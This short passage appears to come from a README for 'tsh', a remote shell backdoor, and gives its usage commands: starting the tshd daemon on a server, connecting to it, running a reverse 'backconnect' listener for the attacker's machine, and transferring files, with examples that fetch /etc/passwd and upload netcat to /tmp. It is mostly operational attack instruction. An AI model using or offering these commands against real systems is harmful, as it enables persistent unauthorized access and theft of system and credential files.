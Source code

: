 Now run `./tshd` on server. It will start listening on the specified port. You can connect to it via executing the following command:

`./tsh host_ip`

If tsh was compiled with backconnect capability, the `tshd` daemon will try to connect back to the attacker’s machine. To launch listener on attacker’s side:

    $ ./tsh cb
    Waiting for the server to connect...

To transfer files with tsh:

    ./tsh host_ip get /etc/passwd .
    ./tsh host_ip put /bin/netcat /tmp


